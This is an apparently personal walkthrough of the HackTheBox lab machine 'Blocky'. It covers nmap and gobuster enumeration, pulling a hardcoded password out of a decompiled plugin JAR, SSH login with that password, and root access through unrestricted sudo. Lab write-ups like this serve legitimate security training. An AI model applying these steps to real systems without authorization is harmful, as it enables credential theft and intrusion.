 ```yaml
---
title: "Blocky"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["jar"]
---
```


![infocard](media/blockyinfocard.png)

Blocky is a medium-difficulty machine on HackTheBox that involves exploiting a Java Archive (JAR) file to gain initial access and leveraging sudo privileges for privilege escalation. This walkthrough will guide you through the process of compromising the Blocky machine, from initial reconnaissance to gaining root access.

## Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-29 07:25 EST
Nmap scan report for 10.10.10.37
Host is up (0.43s latency).

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.42 seconds
```

**Key Services Identified:**

- **FTP (21):** ProFTPD 1.3.5a
- **SSH (22):** OpenSSH 7.2p2
- **HTTP (80):** Apache httpd 2.4.18 with WordPress 4.8
- **Minecraft (25565):** Minecraft 1.11.2 server

### Web Enumeration

Visiting the HTTP service on port 80 revealed a WordPress site titled "BlockyCraft – Under Construction!" We initiated a `wpscan` in the background to enumerate WordPress vulnerabilities and discovered a username: `notch`.

**Directory Brute-Forcing:**

Using `gobuster`, we discovered several directories:

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/11/29 08:24:15 Starting gobuster
===============================================================
/index.php (Status: 301)
/wiki (Status: 301)
/wp-content (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
/wp-admin (Status: 301)
```

**Key Directories Identified:**

- `/wiki`
- `/wp-content`
- `/plugins`
- `/wp-admin`

### Discovering the JAR Files

In `/plugins` directory there are two jar file. We downloaded both files for further analysis.

![plugins](media/blockyplugins.png)

#### Decompiling the JAR File

Using an online Java decompiler, we decompiled `BlockyCore.jar` and found a `BlockyCore.class` file. Decompiling this class revealed hardcoded database credentials for the root user.

![decomiple](media/blockydecompile.png)

## Gaining Initial Access

Using the discovered credentials, we attempted to SSH into the machine with the username `notch` and the password `8YsqfCTnvxAUeduzjNSXe22`. The login was successful, granting us access to the user shell.

**SSH Access:**

```bash
ssh notch@10.10.10.37
```

**User Shell Obtained:**

![user](media/blockyuser.png)

## Privilege Escalation

### Enumerating Sudo Privileges

Upon gaining access to the user shell, we checked the sudo privileges available to the `notch` user:

```bash
sudo -l
```

**Sudo Privileges:**

```bash
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

### Escalating to Root

Given that the `notch` user can run all commands as root, we escalated privileges by running:

```bash
sudo su
```

**Root Shell Obtained:**

![root](media/blockyroot.png)
